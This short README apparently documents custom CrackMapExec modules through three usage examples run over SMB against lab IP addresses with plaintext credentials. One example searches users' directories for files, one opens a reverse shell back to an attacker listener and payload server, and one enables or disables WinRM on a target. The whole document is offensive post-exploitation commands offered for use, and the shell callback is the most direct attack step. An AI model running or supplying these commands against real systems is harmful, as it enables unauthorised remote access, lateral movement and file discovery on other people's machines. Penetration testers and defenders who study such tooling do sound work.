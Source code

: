## Usage of file_discovery

````console
crackmapexec smb 192.168.163.144 -u 'Admin2' -p 'Password!' -M file_discovery -o SEARCH_PATH=C:\\Users
````

## Usage of revshell

````console
crackmapexec smb 192.168.163.144 -u 'Admin2' -p 'Password!' -M reverse_shell -o LHOST=192.168.163.136 LPORT=1234 HTTP_SERVER=8443
````

## Usage of winrm

````console
crackmapexec smb 192.168.163.142 -u Admin2 -p 'Password123!' -M winrm -o ACTION=ENABLE
crackmapexec smb 192.168.163.142 -u Admin2 -p 'Password123!' -M winrm -o ACTION=DISABLE
````
